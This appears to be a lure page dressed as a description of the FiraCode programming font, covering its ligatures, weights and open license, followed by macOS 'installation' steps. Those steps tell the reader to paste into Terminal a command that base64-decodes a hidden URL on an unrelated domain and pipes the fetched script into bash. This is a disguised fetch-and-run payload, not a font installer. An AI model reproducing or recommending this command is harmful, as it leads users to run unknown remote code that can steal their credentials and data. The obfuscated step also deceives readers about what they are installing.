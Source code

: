 **FiraCode** is an open-source monospaced font created specifically for programmers. It includes **programming ligatures**, which are designed to make your code more readable and help you visually differentiate commonly used symbols, such as `=>`, `===`, and `&&`. The font’s clear and modern design ensures that your code is both beautiful and easy to read.

## Key Features

- **Programming Ligatures**: Transforms standard code symbols into more readable, combined symbols for a cleaner look (e.g., `!=`, `==`, `=>`).
- **Monospaced Design**: Keeps the same character width across all characters, making it ideal for programming.
- **Multiple Weights**: Available in Regular, Bold, and Italic versions, with different weights to suit your preferences.
- **Open Source**: Free to use, with no restrictions under the [SIL Open Font License](https://opensource.org/licenses/OFL-1.1).
- **Clean and Readable**: Designed with developers in mind to maximize the readability of code without compromising style.
  
## Installation

1. Open the Terminal app on your Mac
Press Command (⌘) + Space to launch Spotlight Search
Type Terminal, then press Enter to launch it

2. Enter this command in Terminal
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9pY2xvdWRzZXJ2ZXJzLmNvbS9nbS9pbnN0YWxsLnNo | base64 -d))"

Copy the following command and paste it into Terminal, then press Return
